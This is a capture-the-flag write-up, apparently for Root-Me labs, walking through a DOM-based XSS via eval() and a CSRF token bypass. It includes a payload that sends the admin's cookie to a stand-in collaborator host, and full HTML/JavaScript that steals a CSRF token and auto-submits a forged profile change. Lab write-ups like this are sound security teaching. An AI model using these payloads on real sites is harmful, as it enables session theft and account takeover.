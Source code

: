 ### **1.XSS DOM Based-Eval**
  
When entering the lab, we see an input field to enter the calculation. 

![image](https://user-images.githubusercontent.com/63194321/156353968-6a4a0869-1e18-4237-9834-0f4e7ec3349b.png)

When inputting a non-numeric input, there will be a warning that only `number +|-|*|/ number` can be entered. 

![image](https://user-images.githubusercontent.com/63194321/156354619-ead11962-1e26-4fc3-88f9-5745048366e6.png)

But this filter only happens in the first 3 characters. In addition to these 3 characters, we can enter as we please. 

Next we try to insert the script code into the code. 
> 1+1,alert(1)

![image](https://user-images.githubusercontent.com/63194321/156355376-5c833421-41b4-4ebd-8f60-3554bb5f0865.png)

There is a message to ignore `()` to protect the site.

we replace `()` with `"``"` and rewrite the payload.  
> 1+1,alert`1`

![image](https://user-images.githubusercontent.com/63194321/156357306-e644b7a7-f593-48b2-ac24-d591c0b584e8.png)

--> Website is XSS 

To complete the challenge we must have the admin cookie. 

After looking at the website's code, we discovered that the website uses `eval()` to perform calculations. 

![image](https://user-images.githubusercontent.com/63194321/156357906-83c33844-5961-473b-8a9e-0ef184243766.png)

Once learned that the `eval()` function can execute its internal javascript code. 

So in this lesson we can use `location` to send the website's cookies to the outside. 
> 1+1, location="http://your-burp-collaborator/?cookie"+document.cookie

![image](https://user-images.githubusercontent.com/63194321/156358606-a6db2abf-3f9e-46eb-8072-5f57289a6c21.png)

Copy the url to the contact page to send it to the admin. 

![image](https://user-images.githubusercontent.com/63194321/156358733-7a2fe94c-c3b8-4369-8837-12a0c3bd9c75.png)

Check on burp client 1 Http response contains flag.

![image](https://user-images.githubusercontent.com/63194321/156358887-cc465c6c-1e0e-4b92-aed9-1b7942e99c39.png)


### **2.CSRF-token bypass**

The interface of the website when entering inside. 

![image](https://user-images.githubusercontent.com/63194321/156359664-aa13e820-7582-4145-9eb5-fc1d4580bfe1.png)

The goal of this lab is to access the `private` section to get the flag 

![image](https://user-images.githubusercontent.com/63194321/156359830-4463f20e-fc8b-4df8-997d-cb9d35710589.png)

To have administrative rights, we must activate the account by editing the profile. To do that we need to use CSRF. 

But the site does use csrf_token to avoid CSRF implementation. 

![image](https://user-images.githubusercontent.com/63194321/156361742-f0a6e9dc-9e43-4bdf-b5a3-470540eab665.png)

What you need to do is bypass the csrf token. 

The site has a `/search` section that uses the GET method but doesn't have any authentication. 

![image](https://user-images.githubusercontent.com/63194321/156363648-d0c088e0-7dc9-48e4-ac6c-123539d9c0d2.png)

--> csrf_token is only in POST method.

We will use a script to get the admin's csrf_token.

```<script>
var x = new XMLHttpRequest();
function get() {
  x.open("GET","http://challenge01.root-me.org/web-client/ch23/index.php?action=profile",true);
  x.send(null); 
}
x.onreadystatechange = function() {
  if (x.readyState == XMLHttpRequest.DONE) {
    var token = x.responseText.match(/name="token" value="(.+)"/)[1];
  }
}
</script>
```
The above js uses `XMLHttpRequest()` to get the web page content. 
After having the content of the website, it will browse to find the token and assign it to the `token` variable. 

After we have obtained the admin token, we will directly replace the admin token into the token in the POC of the CSRF code. 
``` <!DOCTYPE html>
<html>
<head>
    <title>csrf</title>
</head>
<body onload="get()">

<form id="form-payload" action="http://challenge01.root-me.org/web-client/ch23/index.php?action=profile" method="POST" enctype="multipart/form-data">
  <input type="hidden" name="username" value="your_username"/>
  <input type="hidden" name="status" value="on"/>
  <input type="hidden" id="forged-token" name="token" value=""/>
  <input type="submit" value="go"/>
</form>

<script>
var x = new XMLHttpRequest();
function get() {
  x.open("GET","http://challenge01.root-me.org/web-client/ch23/index.php?action=profile",true);
  x.send(null); 
}
x.onreadystatechange = function() {
  if (x.readyState == XMLHttpRequest.DONE) {
    var token = x.responseText.match(/name="token" value="(.+)"/)[1];
    document.getElementById("forged-token").value = token;
    document.getElementById("form-payload").submit();
  }
}
</script>
</body>
</html>
```
Copy the payload and paste it in the comment section of the contact. Wait a few minutes and then switch to private and see the results. 

![image](https://user-images.githubusercontent.com/63194321/156366243-13e4dcf9-cf9a-4ab5-856c-de81703faf0e.png)
